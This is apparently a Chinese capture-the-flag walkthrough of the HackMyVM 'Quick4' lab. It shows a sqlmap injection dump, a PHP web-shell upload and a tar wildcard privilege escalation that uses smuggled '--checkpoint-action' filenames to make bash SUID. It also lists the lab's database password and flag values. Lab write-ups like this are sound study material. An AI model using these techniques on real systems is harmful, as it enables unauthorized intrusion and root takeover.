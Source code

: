 # Quick4

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Quick4

[video](https://www.bilibili.com/video/BV1vEoqYyEAR/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```

```

登陆 http://192.168.5.39/customer/ 登陆不存在注入，注册个用户进去后也没利用点。

另外一个登陆点存在注入 http://192.168.5.39/employee/ sqlmap 直接跑出：

```
`quick`
sqlmap -r req.txt --flush-session --batch -D '`quick`' -T users --dump
```

得到 admin 用户的邮箱和密码，登陆 employee，可以修改头像，使用 BP 抓包，上传一个 php web shell，然后访问拿到反弹的 webshell。

先拿到数据库连接信息：

```
$conn = new mysqli('localhost', 'root', 'fastandquicktobefaster', 'quick');
```

直接在/home 下拿到 flag:

```
HMV{7920c4596aad1b9826721f4cf7ca3bf0}
```

crontab 发现每分钟执行脚本 /usr/local/bin/backup.sh

```
#!/bin/bash
cd /var/www/html/
tar czf /var/backups/backup-website.tar.gz *
```

这里可以利用 tar 提权：

```
cd /var/www/html/
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1

/bin/bash -p
```

拿到 root flag：

```
HMV{858d77929683357d07237ef3e3604597}
```
